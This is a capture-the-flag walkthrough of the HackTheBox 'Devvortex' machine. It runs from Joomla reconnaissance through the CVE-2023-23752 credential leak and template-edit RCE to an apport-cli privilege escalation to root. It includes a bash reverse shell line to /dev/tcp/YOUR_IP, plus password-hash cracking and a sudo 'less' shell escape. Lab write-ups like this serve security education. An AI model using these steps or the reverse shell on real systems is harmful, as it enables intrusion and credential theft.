


Let’s start with a basic nmap scan


We can see that 22 (SSH) and 80 (HTTP) ports are open. 
If you open it in the browser you will be redirected to devvortex.htb. It means we need to add it in /etc/hosts

After doing the previous step and refreshing the page we can see the website content


After examining the website I didn’t find anything interesting.
Then I started enumerating directories and vhosts using ffuf


Cool. We found the dev.devvortex.htb subdomain. We need to add it in the hosts file too.


Perfect. Now let’s run a directory scan on this subdomain


We identified a few directories. /administrator directory redirects us to Joomla admin panel


We can you [joomscan](https://github.com/OWASP/joomscan) tool to get more information about the website


Joomla version of the website is 4.2.6.
If we search for Joomla 4.2.6 vulnerabilities we will find out that there exists one interesting vulnerability with a publicly known exploit, which allows unauthenticated user access to webservice endpoints which then can lead to information disclosure



I used this PoC [https://github.com/adhikara13/CVE-2023-23752](https://github.com/adhikara13/CVE-2023-23752)


script gives us database name, username and password. I also tried and used it to login the admin panel and luckily it worked.


When you have Joomla admin credentials it’s so easy to get RCE too using a simple trick. You can check details on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce).

Steps to RCE:

1. Go to System > Site Templates > Cassiopeia Details and Files

1. Choose the file you want to edit (I used error.php)

1. Add the following code in the file and click Save

```
# Replace YOUR_IP with your HackTheBox VPN ip address
system("bash -c'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'")
```


4. Start a listener


5. Now load the file you edited (error.php in this case) using the URL
http://dev.devvortex.htb/templates/cassiopeia/error.php and you will get the reverse shell and upgrade to tty shell for better experience


We already have Database Credentials (you can also see them in /var/www/dev.devvortex.htb/configuration.php file) which we exfiltrated earlier using Joomla exploit. Let’s try and connect to the database and try to get more information


you can list tables using show tables; command and you will find out there is a *sd4fg_users* table


Now select data from the table


Great! There is another user’s password hash. We can use john to crack it


You can also see in /etc/passwd file that logan is a Linux user


It seems like we might be able to log in ssh using this user and get a user flag


Bingo 🥳

Now it’s time for privilege escalation. Before running LinPEAS or anything I always check sudo -l command to see which commands the user can run using sudo. logan user can run apport-cli using sudo


apport-cli is a CLI tool for collecting and analysing data about crashed processes.

Few months ago **CVE-2023–1326** was publish for apport-cli allows attacker to escalate privileges on the system and it looks like there exists publicly known exploits for this vulnerability
[CVE-2023-1326 - Github Advisory Database](https://github.com/advisories/GHSA-qgrc-7333-5cgx)

Let's reproduce it

Steps:
1) Create a file in /var/crash directory


2) execute *sudo apport-cli -c /var/crash/crash.crash less *and choose **V **when prompted


3) Wait for a few seconds and after you see a colon (:) symbol type !whoami and click enter


Perfect. We are **root**

Now type !cat /root/root.txt to get a flag




Pwn3d! 🏁

Follow me: [https://twitter.com/_Lazzarus](https://twitter.com/_Lazzarus)
